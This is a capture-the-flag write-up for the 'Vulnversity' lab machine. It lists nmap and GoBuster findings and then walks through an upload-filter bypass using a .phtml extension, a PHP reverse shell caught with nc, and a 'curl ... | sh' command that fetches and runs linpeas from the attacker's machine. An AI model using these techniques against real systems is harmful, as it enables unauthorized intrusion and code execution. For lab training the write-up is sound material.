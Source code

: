 Vulnversity
=================

> Armand Alvarez | 17 July 2021

------------------------



Task 1: Reconnaissance

# Nmap scan

**21** - ftp - vsftpd 3.0.3
**22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
**139** - netbios-ssn Samba smbd 3.x - 4.x
**445** - ' ' smbd 4.3.11-Ubuntu
**3128** - http-proxy - Squid http proxy 3.5.12
**3333** - http - Apache httpd 2.4.18

* Scan the box, how many ports are open?
`6`

* What version of the squid proxy is running on the machine?
`3.5.12`





# Vulnversity
 _Author: minimcloving_

 _Date: 17 July 2021_

--------------------
--------------------
## nmap scan

###Open Port
* **21** - ftp - vsftpd 3.0.3
* **22** - ssh - OpenSSH 7.2p2 Ubuntu 4ubuntu2.7 (Ubuntu Linux; protocol 2.0)
* **139** - netbios-ssn Samba smbd 3.x - 4.x
* **445** - ' ' smbd 4.3.11-Ubuntu
* **3128** - http-proxy - Squid http proxy 3.5.12
* **3333** - http - Apache httpd 2.4.18

###OS Detection
* OS: Windows 6.1 (Samba 4.3.11-Ubuntu)


## GoBuster

```
http://<ip>:3333
wordlist: /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```
* /images
* /css
* /js
* /fonts
* /internal
* /server-status


## Notes

* /internal brings us to a form upload pages
    * .php is not allowed
    * No extention in original /usr/share/wordlists/wfuzz/general/extensions_common.txt are allowed
    * Fuzzing the upload form, we find that **.phtml** is allowed


## Walkthrough

* nmap scan
    * discovered webserver
* dirbuster to find dirs
    * discovered form upload
* fuzzed w/ burpsuite
    * discovered .phtml file extension allowed
    * uploaded php reverse shell with `.phtml` extension 
* get in with nc
    * Navigating around reverse shell, discover user named `bill`
    * his home directory contained the flag
* Transfer linpeas.sh to our exploited machine to run the script
    * On local machine, run this command:
        * `python -m SimpleHTTPServer 80`
    * On the victim machine, run this command:
        * `curl <local ip address*>/linpeas.sh | sh`
            * * If you are using openvpn, this will be the ip address that openvpn generates, not your actual machines local ip address. This is because the victim machine can only connect to the vpn address. Try it yourself: once you get into the machine, send a ping to both addresses (you may have to ctrl+c to escape the ping and redo your nc -lvnp connection)
* linpeas.sh shows under interesting files -> SUID:
    * /bin/systemctl


# CTF-Writeups
# CTF-Writeups
# CTF-Writeups
# CTF-Writeups
# CTF-Writeups
# CTF-Writeups
